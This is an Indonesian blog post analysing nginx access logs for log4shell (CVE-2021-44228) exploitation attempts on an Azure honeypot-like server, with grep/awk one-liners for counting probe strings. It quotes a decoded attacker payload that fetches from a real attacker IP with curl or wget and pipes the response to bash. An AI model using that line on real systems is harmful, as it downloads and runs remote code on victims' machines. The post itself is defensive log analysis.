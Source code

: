 ```yaml
---
layout: post
published: true
title: nginx log terkait log4j/ log4shell
author: admin
comments: true
date: '2021-12-23 22:00'
categories:
  - vuln
  - nginx
  - log
---
```

#### intro

log4j/ log4shell adalah sebuah vuln yang cukup menghebohkan di akhir tahun ini, hal ini karena aplikasi logging ini cukup banyak di pakai di software OSS, serta vuln. nya yang cukup parah.
salah satu script logging memiliki kelemahan yang membuat attacker bisa menjalankan perintah dari jauh (RCE) dengan mengirimkan parameter tertentu ke service yang menjalankan j4log tersebut.
tulisan ini memperlihatkan beberapa exploitasi yang tertangkap di nginx log milik penulis di salah satu penyedia jasa cloud.
<!--more-->
#### informasi terkait log4j/ log4shell
cara kerja exploit: ![log4j](/images/log4j.jpg)

informasi cve-nya: [mitre](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228)

#### nginx di azure
beberapa hari setelah berita log4j ramai di jagat infosec, dan karena masih terdapat sisa credit azure, maka penulis menjalankan aplikasi nginx di salah satu vm di azure.
sebenarnya penulis juga menjalankan inetsim, untuk mencoba peruntungan pada port lain, namun log inetsim sangat sedikit (jarang di akses), dan mungkin nanti dilakukan update pada tulisan ini setelah inetsim lebih laku.
hasil dari log selama beberapa hari tersebut membuat kita bisa mempelajari lebih jauh serangan yang dilakukan. berikut beberapa hasilnya:

1. ip berdasarkan request terbanyak yang memuat string "jndi"
```bash
cat access.log* | grep -i jndi |awk '{print $1}'| sort | uniq -c | sort -rn
```
![topip](/images/log4j2.PNG)

2. menambahkan negara ke list ip pada nomor sebelumnya
```bash
cat top_ip_jndi.txt | while read amt ip;do country=$(geoiplookup $ip | awk -v FS="(GeoIP Country Edition: |,)" {print }); echo $amt $ip $country; done;
```
![topipwithcountry](/images/log4j3.PNG)

3. melihat rincian string exploit
```bash
cat access.log* | grep -i jndi |awk '{print $7}'| sort | uniq -c | sort -rn
```
![strings](/images/log4j1.PNG)

dengan merefer ke gambar pada bagian awal, kita dapat melihat bahwa serangan ini cukup sederhana. attacker mengirimkan string lookup ke sebuah server yang dikuasai, reply dari lookup tersebut akan di eksekusi oleh server target (RCE).
namun terlihat pada gambar diatas, kebanyakan serangan tersebut hanya bertujuan recon/ mengetahui apakah server vulnerable, dan bukan  merupakan RCE.
string yang paling banyak ditemui (urutan pertama) di-encode dengan base64, yang bila di-decode menampilkan:
```bash
(curl -s 195.54.160.149:5874/[targetsvr]:80||wget -q -O- 195.54.160.149:5874/[targetsvr]:80)|bash
```
secara sederhana mengirimkan alamat [targetsvr] ke resources yang dikuasai penyerang (195.54.160.149) dengan curl/ wget.

#### penutup
walaupun cukup heboh, nampaknya tidak terlalu banyak juga penyerang yang memanfaatkan log4j. Mungkin juga ada attacker yang ketika mengenali versi nginx yang saya jalankan, dan memutuskan tidak perlu mengirimkan string "jndi" sehingga saya tidak mendeteksinya (*pendapat tidak berdasar).
sudah terdapat beberapa langkah mitigasi di dunia maya, sehingga bila anda terdampak, sangat disarankan melakukan mitigasi.
log dari inetsim sendiri akan saya update bila hasilnya menarik.
